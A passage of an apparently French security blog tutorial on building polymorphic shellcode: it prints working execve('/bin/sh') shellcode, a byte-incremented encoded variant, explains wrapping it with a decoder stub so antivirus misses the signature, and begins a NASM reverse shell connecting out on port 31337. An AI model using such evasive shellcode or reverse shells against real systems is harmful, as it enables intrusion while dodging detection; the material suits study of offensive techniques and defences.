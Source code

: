 Pour illustrer cela de manière extrêmement simple, nous allons reprendre le shellcode du début :
```shell
\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
```

Nous le chiffrons en incrémentant chaque valeur hexadécimale :
```shell
\x49\x32\xd3\x49\xbc\x30\x30\x63\x6a\x6f\x30\x74\x69\x49\xc2\xec\x09\x54\x49\x8a\xe8\x51\x58\x49\x8a\xe7\xb1\x3c\x10\x06
```

Notre shellcode est désormais chiffré puisque nous avons ajouté 0x01 à chaque valeur hexadécimale. Nous pouvons alors remarquer que le pattern `\x2f\x62\x69\x6e\x2f\x73\x68` n'est plus présent.

{{< admonition warning >}}
Il est important de préciser ici que certaines valeurs hexadécimales sont à proscrire. Ce sont les badchars. Ils peuvent varier, mais la plupart du temps ce sont `\x00` et `\x0a` qui doivent être évités puisque le premier représente un null byte (indiquant une fin de chaîne de caractères) et le second un saut de ligne. Ils créent des comportements inattendu et empêche la bonne exécution du shellcode. Il faut donc veiller à ce que ces valeurs ne soient présentes nulle part.
{{< /admonition >}}

Notre shellcode étant désormais chiffré, il n'est plus exécutable et il est donc nécessaire d'y ajouter un décodeur.

Ici, c'est un exemple donc je ne vais pas montrer le shellcode permettant de décoder ce shellcode chiffré, mais le shellcode final aura la forme suivante :
```shell
<shellcodeDecodeur>\x49\x32\xd3\x49\xbc\x30\x30\x63\x6a\x6f\x30\x74\x69\x49\xc2\xec\x09\x54\x49\x8a\xe8\x51\x58\x49\x8a\xe7\xb1\x3c\x10\x06
```

Le shellcode final sera donc constitué d'un shellcode décodeur suivi du shellcode chiffré. Ainsi, les antivirus ne pourront pas détecter de pattern spécifique avant l'exécution de ce shellcode et lors de son exécution, ce dernier se déchiffrera automatiquement puis s'exécutera.

## Notions d'assembleur

{{< admonition tip >}}
Quelques notions d'assembleur sont indéniablement nécessaires afin de faciliter la compréhension de la suite de ce post. Je vous invite donc à lire mon post [L'assembleur](https://nyxott.github.io/posts/asm) avant de continuer celui-ci.
{{< /admonition >}}

## Projet

Nous allons donc voir comment faire un shellcode polymorphique.

### Reverse shell

Tout d'abord, il nous faut un shellcode initial. Un reverse shell est un bon choix puisque cela signifie que nous aurons un accès shell à la machine distante depuis notre machine.

Voici donc le code assembleur de notre reverse shell :
```nasm
section .text
    global _start

_start:

    initStructure:
        push 0x640a017f             ;put on the stack "127.1.10.100" in little endian
        push word 0x697a            ;put on the stack "31337" in little endian
        push word 0x02              ;put on the stack the communication area (here "AF_INET")

    socket:
        xor rdx, rdx                ;indicate the protocol to be used (here the default protocol)
```
